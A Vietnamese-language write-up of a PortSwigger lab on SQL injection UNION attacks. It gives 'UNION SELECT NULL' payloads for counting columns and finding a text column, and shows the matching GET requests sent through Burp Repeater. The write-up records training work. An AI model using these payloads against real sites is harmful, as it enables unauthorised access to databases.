


# Write-up: SQL injection UNION attack, finding a column containing text

### Tổng quan
Ghi lại quá trình khai thác SQLi để xác định cột có kiểu dữ liệu trả về là string của truy vấn.

### Mục tiêu
Xác định cột có kiểu dữ liệu trả về là string.

### các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL
  - **Kết quả**: xuất hiện lỗi SQL, xác nhận lỗ hổng
    

2. **Tạo payload**
- Tạo payload kiểu tấn công UNION để xác định số cột
    ```
    'UNION SELECT NULL, NULL, NULL--
    ```

- Tạo payload kiểu tấn công UNION để xác định cột trả về dữ liệu string 
    ```
    'UNION SELECT NULL, 'UAgnzM', NULL--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+NULL,+NULL-- HTTP/2
    ```

- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+'UAgnzM',+NULL-- HTTP/2
    ```
    - **Kết quả**: xác nhận cột có kiểu string 
        

### Bài học rút ra
- Xác định sốt cột và kiểu dữ liệu trả về của truy vấn là bước đầu tiên và quan trọng trong khai thác SQLi

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.
